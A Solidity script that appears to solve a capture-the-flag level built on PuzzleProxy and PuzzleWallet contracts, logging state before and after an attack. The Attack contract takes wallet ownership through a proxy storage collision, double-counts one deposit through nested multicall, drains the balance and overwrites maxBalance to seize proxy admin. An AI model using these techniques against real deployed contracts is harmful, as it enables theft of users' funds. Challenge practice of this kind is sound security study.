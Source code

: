 ```solidity
        console.log("Proxy Pending Admin : ", proxy.pendingAdmin());
        console.log("Wallet balance : ", address(wallet).balance);

        Attack attack = new Attack();

        attack.exploit{value: 0.001 ether}();

        console.log("Wallet Owner  :", wallet.owner());
        console.log("Proxy Admin :", proxy.admin());
        console.log("Wallet Max Balance : ", wallet.maxBalance());
        console.log("Proxy Pending Admin : ", proxy.pendingAdmin());
        console.log("Wallet balance : ", address(wallet).balance);

        vm.stopBroadcast();
    }
}

contract Attack {
    PuzzleProxy public proxy =
        PuzzleProxy(payable(0x5415eC6D56a799978BdEd9166328De045f52366D));
    PuzzleWallet public wallet =
        PuzzleWallet(0x5415eC6D56a799978BdEd9166328De045f52366D);

    function exploit() public payable {
        proxy.proposeNewAdmin(address(this));

        wallet.addToWhitelist(address(this));

        bytes[] memory _depositData = new bytes[](1);
        _depositData[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        data[0] = _depositData[0];
        data[1] = abi.encodeWithSelector(
            wallet.multicall.selector,
            _depositData
        ); // nested multicalling

        wallet.multicall{value: 0.001 ether}(data);

        wallet.execute(address(this), 0.002 ether, "");

        wallet.setMaxBalance(
            uint256(
                uint160(address(0x2e118e720e4142E75fC79a0f57745Af650d39F94))
            )
        );
    }

    receive() external payable {}
}

```
